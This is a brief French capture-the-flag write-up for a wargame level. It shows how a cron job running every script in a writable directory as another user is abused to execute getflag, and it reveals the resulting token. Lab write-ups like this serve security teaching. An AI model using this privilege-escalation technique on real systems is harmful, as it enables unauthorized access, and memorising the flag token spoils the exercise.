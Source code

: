 - `cat /var/mail/level05`
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
- `cat /usr/sbin/openarenaserver`
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
- On peut voir que le crontab execute tout les fichier se trouvant dans /opt/openarenaser/ en tant que flag05
- Donc on crée un script qui execute getflag
- `echo "getflag > /tmp/flag" > /opt/openarenaserver/run; cat /tmp/flag`
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
